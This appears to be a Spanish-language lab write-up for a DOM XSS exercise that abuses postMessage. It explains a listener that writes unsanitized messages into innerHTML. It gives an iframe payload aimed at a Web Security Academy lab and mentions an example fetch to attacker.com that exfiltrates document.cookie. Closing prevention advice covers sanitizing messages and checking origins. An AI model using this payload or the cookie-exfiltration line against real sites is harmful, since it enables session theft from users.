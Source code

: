 `window.addEventListener('message', function(e) {
`document.getElementById('ads').innerHTML = e.data;
`})`

El código que has compartido añade un *event listener* al objeto `window` para escuchar el evento `'message'`. Este evento se dispara cuando se recibe un mensaje desde otra ventana, un `iframe`, o un script en otro dominio (usando la API `postMessage`).

### Desglose del código:

1. **`window.addEventListener('message', function(e) { ... })`**:
   - Este fragmento agrega un "escuchador" para el evento `message` en el objeto `window`.
   - El evento `message` se activa cuando un script envía un mensaje al documento utilizando `window.postMessage()`.

2. **`function(e) { ... }`**:
   - Es una función anónima que se ejecuta cada vez que se recibe un mensaje. El parámetro `e` es el objeto del evento, que contiene datos relevantes sobre el mensaje recibido.

3. **`document.getElementById('ads').innerHTML = e.data;`**:
   - Este código actualiza el contenido HTML del elemento con el ID `'ads'` en el documento.
   - La propiedad `e.data` contiene los datos enviados por el remitente del mensaje. Estos datos se insertan directamente en el HTML del elemento.


==El siguiente código envía un post message, como la página está escuchando lo incrustará en ads sin sanitización y si  filtrado de urls origen==


`<iframe src="https://0aac00e603759fe580288a3400c1008f.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">


El código que has compartido intenta explotar una vulnerabilidad de tipo Cross-Site Scripting (XSS) utilizando un iframe que carga una URL externa y envía un mensaje malicioso mediante la API `postMessage`. Aquí está el desglose de lo que está haciendo:

### Explicación del Código:

```html
<iframe src="https://0aac00e603759fe580288a3400c1008f.web-security-academy.net/" 
        onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
</iframe>
```

1. **`<iframe src="...">`**:
   - Crea un iframe que carga la URL `https://0aac00e603759fe580288a3400c1008f.web-security-academy.net/`. Un iframe permite incrustar otra página web dentro de la actual.

2. **`onload="this.contentWindow.postMessage(...)"`**:
   - El atributo `onload` se activa cuando el contenido del iframe ha terminado de cargarse.
   - `this.contentWindow` se refiere al objeto `window` de la página cargada dentro del iframe.
   - `postMessage('<img src=1 onerror=print()>', '*')` envía un mensaje al contenido del iframe. Este mensaje contiene un payload malicioso: `'<img src=1 onerror=print()>'`.

3. **El Payload**:
   - El payload `'<img src=1 onerror=print()>'` es un intento de inyectar código JavaScript que se ejecutará cuando ocurra un error en la carga de la imagen (porque la URL `src=1` no es válida).
   - `onerror=print()` es el código que se ejecuta cuando falla la carga de la imagen. `print()` es una función que en algunos navegadores puede abrir el cuadro de diálogo de impresión, pero en un escenario real, este atributo podría ser reemplazado por cualquier código malicioso, como `alert(document.cookie)` o `fetch('http://attacker.com/?data='+document.cookie)` para exfiltrar cookies.

### Condiciones para la Explotación:

- **Aceptación del Mensaje**: La página cargada dentro del iframe debe tener un `message` event listener que acepte y procese el mensaje sin validar correctamente el contenido. Esto significa que, en su código JavaScript, debe haber algo similar a `window.addEventListener('message', function(e) { document.body.innerHTML = e.data; });`, que inserta directamente el contenido del mensaje en el DOM.
  
- **Permitir ejecución de código**: Si la página inserta el contenido del mensaje en el DOM sin sanitización, entonces se ejecutará el código malicioso (`onerror=print()` en este caso).

### Riesgos:

Si el sitio vulnerable no valida correctamente los mensajes que recibe a través de `postMessage`, este código podría resultar en la ejecución de scripts arbitrarios, lo que llevaría a un ataque de Cross-Site Scripting (XSS).

### Prevención:

- **Sanitización y validación**: La página dentro del iframe debe asegurarse de validar y sanitizar cualquier mensaje recibido a través de `postMessage` para prevenir la inyección de código malicioso.
  
- **Uso seguro de `postMessage`**: Limitar el origen de los mensajes a dominios de confianza utilizando `e.origin` en lugar de aceptar mensajes de cualquier origen (`'*'`).
